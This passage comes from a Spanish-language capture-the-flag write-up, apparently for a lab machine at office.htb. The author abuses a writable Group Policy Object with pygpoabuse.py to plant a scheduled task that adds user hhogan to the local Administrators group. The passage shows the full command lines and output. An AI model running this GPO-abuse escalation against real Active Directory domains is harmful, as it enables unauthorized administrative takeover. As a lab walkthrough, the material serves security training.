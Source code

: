 Hay varias GPO acá. Tomaremos la por defecto del dominio.

```bash
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-Gpo -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

Ejecutando el script que descargamos antes, le daremos un comando que nos asignará al grupo local de administradores luego de refrescar las políticas de grupo con un `gpupdate`:

```bash
❯ python pygpoabuse.py -gpo-id '31b2f340-016d-11d2-945f-00c04fb984f9' -f -k -ccache hhogan.ccache -dc-ip dc.office.htb -command "net localgroup Administrators hhogan /add" office.htb/hhogan
SUCCESS:root:ScheduledTask TASK_5f6e3592 created!
[+] ScheduledTask TASK_5f6e3592 created!
```

> Notar que tuve que utilizar autenticación Kerberos para el script, ya que parece estar mal programado para hacerlo por NTLM.
{: .prompt-info }

```bash
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate
Updating policy...



Computer Policy update has completed successfully.

User Policy update has completed successfully.

*Evil-WinRM* PS C:\Users\HHogan\Documents> net user hhogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 11:59:34 AM
Password expires             Never
Password changeable          5/7/2023 11:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/26/2024 12:47:46 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```